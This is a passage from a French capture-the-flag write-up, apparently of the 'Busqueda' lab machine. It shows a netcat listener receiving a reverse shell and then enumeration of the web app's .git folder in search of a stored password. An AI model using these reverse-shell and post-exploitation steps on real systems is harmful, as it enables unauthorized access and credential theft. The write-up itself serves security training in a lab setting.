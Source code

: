 J'obtiens un shell non privilégié.

```
$ nc -nlvp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.140.129.
Ncat: Connection from 10.129.140.129:35032.
bash: cannot set terminal process group (1485): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$
```

## Enumération

J'observe le contenu du dossier en cours. Je découvre git et une configuration qui contient un mot de passe.

```
svc@busqueda:/var/www/app$ ls -lha
ls -lha
total 20K
drwxr-xr-x 4 www-data www-data 4.0K Apr  3 14:32 .
drwxr-xr-x 4 root     root     4.0K Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1.1K Dec  1  2022 app.py
drwxr-xr-x 8 www-data www-data 4.0K Aug 10 11:44 .git
drwxr-xr-x 2 www-data www-data 4.0K Dec  1  2022 templates
svc@busqueda:/var/www/app$ ls -l .git	
ls -l .git
total 44
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 branches
-rw-r--r-- 1 www-data www-data   15 Dec  1  2022 COMMIT_EDITMSG
-rw-r--r-- 1 www-data www-data  294 Dec  1  2022 config
-rw-r--r-- 1 www-data www-data   73 Dec  1  2022 description
-rw-r--r-- 1 www-data www-data   21 Dec  1  2022 HEAD
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 hooks
-rw-r--r-- 1 root     root      259 Apr  3 15:09 index
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 info
drwxr-xr-x 3 www-data www-data 4096 Dec  1  2022 logs
drwxr-xr-x 9 www-data www-data 4096 Dec  1  2022 objects
drwxr-xr-x 5 www-data www-data 4096 Dec  1  2022 refs

svc@busqueda:/var/www/app$ cd .git
cd .git
svc@busqueda:/var/www/app/.git$ ls
ls
branches
COMMIT_EDITMSG
config
description
HEAD
hooks
index
info
logs
objects
refs

svc@busqueda:/var/www/app/.git$ cat config
cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
```